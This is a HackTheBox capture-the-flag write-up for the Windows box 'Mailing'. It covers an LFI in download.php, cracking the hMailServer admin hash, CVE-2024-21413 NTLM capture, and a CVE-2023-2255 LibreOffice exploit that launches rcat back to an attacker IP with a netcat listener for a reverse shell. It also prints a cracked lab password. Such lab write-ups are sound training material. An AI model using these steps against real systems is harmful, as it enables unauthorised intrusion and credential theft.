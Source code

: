 ```yaml
---
title: Mailing
published: 2024-09-01
description: "An in-detail writeup on the windows box: Mailing. From boot to root!"
image: "./Mailing.png"
tags: ["htb", "box", "medium", "windows", "reverse-shells", "privilege-escalation"]
category: HackTheBox
draft: false
--- 
```


# Mailing 

* I scanned all ports, sub directories and `php` files. Also, copies of the scans are attached here. 

## Initial Access 

* I discovered some `php` files from my `ffuf` scans and one interesting one was this:

```bash
download                [Status: 200, Size: 31, Words: 5, Lines: 1, Duration: 326ms]
```

* Requesting `download.php` made me more curious:

```bash
❯ curl 'mailing.htb/download.php'
No file specified for download. 
```

* From that results I figured out that there's a param probably `file` 

* And, I was correct the param was `file` and it returned an error page:

```bash
curl 'mailing.htb/download.php?file='
---snip--- 
</style>
</head>
<body>
<div id="header"><h1>Server Error</h1></div>
<div id="content">
 <div class="content-container"><fieldset>
  <h2>500 - Internal server error.</h2>
  <h3>There is a problem with the resource you are looking for, and it cannot be displayed.</h3>
 </fieldset></div>
</div>
</body>
</html>
```

* Of course, it was clearly LFI which I confirmed later on

* After, doing some research about `hmailserver`, I discovered some locations it's files are stored:

![](https://i.postimg.cc/PrNvYLpS/Screenshot-from-2024-05-04-21-30-33.png) 

* Passing  `AdministratorPassword` to crackstation, I got the password in clear text:

![](https://i.postimg.cc/TwLgGpV7/Screenshot-from-2024-05-04-21-33-17.png)

* After doing some recon about this I discovered a CVE on Microsoft Outlook that reveals ntlm hash: `CVE-2024-21413` 

![](https://i.postimg.cc/PJ2zSBTY/Screenshot-from-2024-05-04-21-41-03.png)

* I cracked that and got user `maya`, password `m4y4ngs4ri` 

## Privilege Escalation

* I discovered that libreoffice was outdated and found a `cve` to exploit it. Also, `C:\Important Documents` this directory was writeable. 

* [CVE](https://github.com/elweth-sec/CVE-2023-2255)

* I compile rcat for windows and put `rcat.exe` in `C:\ProgramData `

```bash
python3 CVE-2023-2255.py --cmd 'C:\ProgramData\rcat.exe connect 10.10.16.4 9999' --output 'hack.odt'
``` 

* I started a listene with netcat on attacker: `nc -lvnp 9999`. Put `hack.odt` in `C:\Important Documents` and after like 30 seconds I got a shell as `localadmin`.

## Pwned 
+
